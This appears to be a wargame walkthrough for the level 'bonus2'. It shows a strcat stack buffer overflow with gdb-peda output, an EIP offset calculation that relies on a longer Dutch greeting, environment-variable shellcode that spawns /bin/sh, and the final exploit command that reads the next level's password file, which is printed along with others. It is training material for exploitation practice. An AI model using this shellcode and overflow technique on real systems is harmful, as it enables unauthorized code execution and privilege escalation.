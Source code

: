 # Bonus2 - strcat overflow

## Local script usage

```shell
Usage: ./Ressources/main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus2 | `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245` |
| bonus3 | `71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus2

~/bonus2 a

~/bonus2 a b
Hello a
```

The binary takes 2 arguments

```shell
(gdb) info functions
0x08048484  greetuser
0x08048529  main
```

See our assembly interpretation in [source file](../source.c)

The usage is: `~/bonus0 username_part1 username_part2`

The program displays "Hello + `username`" to a username in different languages considering an environment variable "LANG".

The problem is `strcat` that concatenates two strings inside a buffer not big enough.

If `username_part1` has a length greater than `0x12`, the final username will concatenate `username_part1` and `username_part2`

```shell
./bonus2 `python -c "print 'A' * 0x28"` `python -c "print 'A' * 0x20"`
  > Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
  Segmentation fault (core dumped)

./bonus2 `python -c "print 'A' * 0x27"` `python -c "print 'A' * 0x20"`
./bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
  > Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

If `username_part1` and `username_part2` are fully filled (72 chars), the program segfaults because `greetings`-buffer can not contains the username and "Hello " string.

We need to find the offset to override EIP register.

```shell
gdb-peda$ run `python -c "print 'A' * 0x28"` `python -c "print 'A' * 0x20"`
  Invalid $PC address: 0x8004141
  Stopped reason: SIGSEGV
  0x08004141 in ?? ()
```

It override a part (2 bytes) of EIP register.

```shell
"Hello " + "A" * 0x28 + "B" * 0x20
    6    +     40   +    32    = 78 - 2 (bytes already overrided) = 76
=> offset at 76
```

We have to put a shellcode address at the index 76.

As `username_part1` and `username_part2` can not exceed 40 and 32 bytes, we need to change to language. "Hello" is longer in finnish or dutch.

In dutch, "hello" is "Goedemiddag! " and has a length of 13.

```shell
"Goedemiddag! " + `username_part1` + `username_part2` + `SHELLCODE_ADDRESS`
      13        +        40        +        23        +          4         = 80
```

Lets set environment variables, build the exploit and get the pass

```shell
export LANG="nl"

export SHELLCODE=`python -c "print '\x90' * 0xff + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'"`

./getenv SHELLCODE ~/bonus2
0xbffff780

~/bonus2 `python -c 'print "A" * 40'` `python -c 'print "B" * 23 + "\x80\xf7\xff\xbf"'`
  Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB
$ whoami
  bonus3
$ cat /home/user/bonus3/.pass
  71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```

## Sources

### ASM

- [What does the “rep stos” x86 assembly instruction sequence do?](https://stackoverflow.com/questions/3818856/what-does-the-rep-stos-x86-assembly-instruction-sequence-do)

### C

- [Man getenv](https://linux.die.net/man/3/getenv)
- [Man memcmp](https://linux.die.net/man/3/memcmp)
- [Man memcpy](https://linux.die.net/man/3/memcpy)
- [Man memset](https://linux.die.net/man/3/memset)
- [Man puts](https://linux.die.net/man/3/puts)
- [Man strcat](https://linux.die.net/man/3/strcat)
- [Man strncpy](https://linux.die.net/man/3/strncpy)

```

```
